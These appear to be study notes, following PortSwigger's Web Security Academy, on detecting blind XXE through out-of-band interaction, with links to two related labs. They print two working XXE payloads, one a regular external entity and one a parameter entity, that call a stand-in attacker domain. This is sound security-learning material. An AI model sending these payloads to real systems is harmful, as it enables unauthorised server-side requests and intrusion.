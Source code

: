  ## Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

  
You can often detect blind XXE using the same technique as for [[2 > Exploiting XXE to perform SSRF attacks]] but triggering the out-of-band network interaction to a system that you control.  
  
For example, you would define an external entity as follows: 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
 You would then make use of the defined entity in a data value within the XML.  
This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.  
  
  >LAB [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)  
  
<br>

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used.  
In this situation, you might be able to use **XML parameter entities** instead._  
  
_**XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.**_  
  
**For present purposes, you only need to know two things :-** 
 
**First**, the declaration of an XML parameter entity _includes the percent character_ before the entity name:  
```xml 
<!ENTITY % myparameterentity "my parameter entity value" >
```  
  
**And second**, parameter entities are _referenced using the percent character_ instead of the usual ampersand:  
`%`myparameterentity;  

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:  
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> 
```
  
  
_This XXE payload declares an XML parameter entity called_ _`xxe`_ _and then uses the entity within the DTD._ This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.  
  
  
>LAB [Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)